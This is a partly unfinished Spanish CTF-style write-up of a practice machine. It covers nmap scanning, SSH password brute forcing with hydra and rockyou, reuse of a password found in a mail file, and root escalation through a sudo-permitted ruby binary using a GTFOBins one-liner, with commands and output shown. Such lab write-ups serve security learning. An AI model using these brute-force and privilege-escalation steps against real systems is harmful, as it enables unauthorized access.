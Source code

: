 #hydra #password-brute-force #gtfobins #abusing-sudo #ruby

![](../../../Images/Pasted%20image%2020241008071813.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:03 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con un ...



![](../../../Images/Pasted%20image%2020241008170742.png)


## SSH (22 TCP Port)




# Usuario XXX


```
> hydra -l camilo -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 17:07:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 17:08:02
```


```
ssh camilo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:52z4CT20OpL7G8YfPhcdERem6Sq+z8868LngvNGXRlA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
camilo@172.17.0.2's password:
$
```



# Usuario Juan



```
camilo@a8996f6fcde9:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```



```
camilo@a8996f6fcde9:/var/mail/camilo$ su juan
Password:
$ id
uid=1000(juan) gid=1000(juan) groups=1000(juan)
$
```


# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **ruby**.

```
sudo -l
Matching Defaults entries for juan on a8996f6fcde9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on a8996f6fcde9:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008172202.png)

```
$ sudo ruby -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
```